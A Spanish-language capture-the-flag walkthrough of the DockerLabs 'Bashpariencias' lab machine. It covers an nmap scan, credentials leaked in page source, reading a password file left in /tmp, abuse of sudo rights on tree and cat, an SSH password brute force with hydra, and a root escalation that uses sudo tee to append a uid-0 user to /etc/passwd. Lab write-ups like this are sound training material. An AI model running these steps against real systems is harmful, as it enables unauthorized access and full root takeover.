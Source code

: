 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Bashpariencias DockerLabs (Intermediate)

### Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bashpariencias.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh bashpariencias.tar
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 11:11 EDT
Nmap scan report for 172.18.0.2
Host is up (0.000038s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd
|_http-title: Leeme
|_http-server-header: Apache
8899/tcp open  ssh     OpenSSH 6.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a3:b0:db:99:e4:c6:a5:b2:5d:2b:36:b6:3e:d0:15:00 (ECDSA)
|_  256 8f:26:4e:8c:60:28:5c:14:03:b2:45:22:ae:e1:f9:24 (ED25519)
MAC Address: 02:42:AC:12:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.53 seconds
```

Si nos vamos a la pagina y en la seccion de `form.html` veremos en el codigo lo siguiente.

```
rosa:lacagadenuevo
```

Por lo que si hacemos lo siguiente.

### SSH

```shell
ssh rosa@<IP>
```

Metemos la contraseña y ya estariamos dentro de la maquina.

```
User = rosa
Pass = lacagadenuevo
```

### Escalate user juan

Si vemos los procesos del sistema, veremos que se esta ejecutando cada segundo un script que lo que hace es crear el archivo `.txt` de la contraseña del usuario `juan` en la carpeta de `/tmp`, por lo que tendremos que ser rapidos y hacer lo siguiente.

```shell
cd /tmp
cat passjuan.txt
```

Info:

```
hackwhitbash
```

Por lo que ya habremos obtenido la contarseña de `juan`.

```shell
su juan
```

Metemos esa contraseña y ya seriamos ese usuario.

```
User = juan
Pass = hackwhitbash
```

### Escalate user carlos

Si hacemos `sudo -l` podremos ver lo siguiente.

```
Matching Defaults entries for juan on 4663ea8d0df3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 4663ea8d0df3:
    (carlos) NOPASSWD: /usr/bin/tree
    (carlos) NOPASSWD: /usr/bin/cat
```

Que podemos ejecutar esos dos binarios como el usuario `carlos`.

```shell
sudo -u carlos tree -a /home/carlos/
```

Info:

```
/home/carlos/
├── .bash_history
├── .bash_logout
├── .bashrc
├── .cache
│   └── motd.legal-displayed
├── .local
│   └── share
│       └── nano
├── .misecreto.txt
├── .profile
└── password

5 directories, 7 files
```

Encontrando los siguientes archivos nos atraen 2.

```shell
sudo -u carlos cat /home/carlos/password
sudo -u carlos cat /home/carlos/.misecreto.txt
```

Info:

```
(password)

chocolateado

(.misecreto.txt)

No se que hacer solo recuerdo el principio de mi password , olvide los tres ultimos caracteres y si cierro sesion no la recupero.

chocolateXXX

Temo que me despidan como a rosa.
```

Si probamos con la contraseña `chocolateado` vamos a ver que funciona para el usuario `carlos` pero tambien con el otro se podria haber hecho de esta manera...

En nuestro host crearemos un diccionario con esas palabras para ver cual de todas es.

```shell
mp64 'chocolate?l?l?l' > dic.txt
```

```shell
hydra -l carlos -P dic.txt ssh://<IP> -t 64 -s 8899
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-07 12:01:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 17576 login tries (l:1/p:17576), ~275 tries per task
[DATA] attacking ssh://172.18.0.2:8899/
[8899][ssh] host: 172.18.0.2   login: carlos   password: chocolateado
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-07 12:02:03
```

Por lo que vemos nos saca tambien las credenciales.

```
User = carlos
Pass = chocolateado
```

```shell
su carlos
```

Metemos la contraseña y ya seriamos ese usuario.

### Privilege Escalation

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for carlos on 4663ea8d0df3:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on 4663ea8d0df3:
    (ALL:NOPASSWD) /usr/bin/tee
```

Por lo que podemos ejecutar ese binario como `root`, por lo que haremos lo siguiente.

En nuestro host, codificaremos una contraseña con un salteado con la herramienta `openssl`.

```shell
openssl passwd -1 -salt "root" "1234"
```

Info:

```
$1$root$.fAWE/htZAqQge.bvM16O/
```

Y ahora en nuestra maquina victima, haremos lo siguiente.

```shell
printf 'tester:$1$root$.fAWE/htZAqQge.bvM16O/:0:0:root:/root:/bin/bash\n' | sudo tee -a /etc/passwd
```

Info:

```
tester:$1$root$.fAWE/htZAqQge.bvM16O/:0:0:root:/root:/bin/bash
```

Lo que estamos haciendo aqui es añadir una linea en el `passwd` con ese usuario con la bash de `root`, por lo que cuando cambiemos a ese usuario, seremos `root` con la contarseña `1234` que le implementamos.

```shell
su tester
```

Metemos la contraseña `1234` y ya seremos `root`.
